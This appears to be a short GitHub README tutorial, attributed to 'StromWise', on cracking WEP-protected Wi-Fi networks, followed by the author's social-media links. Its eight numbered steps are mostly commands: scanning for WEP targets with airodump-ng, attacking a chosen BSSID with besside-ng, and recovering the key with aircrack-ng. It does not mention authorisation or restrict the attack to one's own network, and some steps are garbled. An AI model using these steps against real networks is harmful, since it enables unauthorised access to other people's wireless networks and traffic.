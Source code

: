 ## IN THIS TOTURIAL YOU WILL LEARN HOW TO CRACK WEP WIFI SECURITY.
## YOU CAN USE PARROT SECURITY OS FOR BEST RESULTS.



STEP 1:  sudo airodump-ng wlan0 --encrypt wep

STEP 2:  once you get the wep targets then press CNTRL+C

STEP 3:  sudo besside-ng wlan0 -b 00:00:00:00:00:00 (we are using besside-ng tool here and -b = bssid of target)

STEP 4:  if you are getting any error while running the above command then run i twice and thrice until you suceed

STEP 5:  after 20000 you will recieve the key in another format but to remember the key in human touch then run this command

STEP 6:  aircrack-ng ./wep.cap

STEP 7:  select the target

STEP 8:  once it will found the key it will show you the key will be ASCII













____________________________________________________________________________________________________________________________________________
▶ Name: StromWise

▶ Role: Creator

▶ Location: Unknown

▶ GitHub: https://github.com/stromwise 

▶ Instagram: https://www.instagram.com/stromwise/ 

▶ Facebook: https://www.facebook.com/profile.php?id=100093706328777

▶ Youtube: https://www.youtube.com/channel/UC-tafc0TqgZNnQio8Gj-hjg 

▶ Twitter: https://twitter.com/StromWise 
____________________________________________________________________________________________________________________________________________



